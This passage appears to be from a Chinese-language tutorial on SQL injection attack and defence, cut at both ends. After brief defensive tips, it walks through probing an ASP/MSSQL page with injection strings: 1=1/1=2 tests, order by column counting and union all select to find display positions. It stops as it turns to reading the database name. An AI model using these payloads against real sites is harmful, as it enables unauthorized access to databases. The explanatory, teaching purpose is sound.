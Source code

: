 2.當用戶第一次登錄的時候，對簡單的密碼進行修改提示，防止暴力破解；

3.用戶名或密碼屏蔽掉單引號\('\)、等號\(=\)、註釋\(--\)等特殊字符；

4.對嘗試SQL注入的IP地址進行報警提示或日誌記錄

數據庫解讀SQL注入攻防原理

1.數據庫如何判斷注入點

判斷注入點的方法很多，比如show.asp?code=115' 加單引號，show.asp?code=115-1 減1，這裏介紹一個經典的方法。

\(1\) http://xxxxx/show.asp?code=115' and 1=1 -- \(正常顯示\)

對應的SQL語句：

select .... from table where code='115' and 1=1 -- and xxxx;

單引號\('\)匹配code='115，然後and連接，1=1恆成立，註釋\(--\)掉後面語句。

\(2\) http://xxxxx/show.asp?code=115' and 1=2 -- \(錯誤顯示\)

對應的SQL語句：

select .... from table where code='115' and 1=2 -- and xxxx;

單引號\('\)匹配code='115，然後and連接，1=2恆錯誤，註釋\(--\)掉後面語句。

2.數據庫如何判斷字段總數 order by

\(1\) http://xxxxx/show.asp?code=115' order by 1 -- \(正常顯示\)

對應的SQL語句：

select .... from table where code='115' order by 1 -- and xxxx;

按照1個字段進行排序，正常顯示錶示該URL對應的SQL語句至少一個字段。

\(2\) http://xxxxx/show.asp?code=115' order by 10 -- \(正常顯示\)

對應的SQL語句：

select .... from table where code='115' order by 10 -- and xxxx;

依次按照字段增加網上進行排序，如果提示錯誤order by 11，則表示共10個字段。

\(3\) http://xxxxx/show.asp?code=115' order by 11 -- \(錯誤顯示\)

3.數據庫獲取顯示位 union

在得到字段個數後，需要獲取字段位置，則使用union或union all。其中union表示將兩個select結果整體顯示，併合並相同的結果，union all顯示全部結果。

http://xxxxx/show.asp?code=115' union all select 1,...,null --

依次替換成數字，測試哪幾個字段有結果，如果報錯則替換回null。最終的結果爲：

show.asp?code=115' union all select 1,null,3,null,null,6,7,8,9,10 --

對應的SQL語句爲：

select .... from table where code='115' union all select 1,null,3,null,null,6,7,8,9,10 -- xxxx;

4.數據庫顯示錯誤網頁及對應數據 db\_name

該網站使用的數據庫爲MSSQL，則一定特定的字段需要知道：
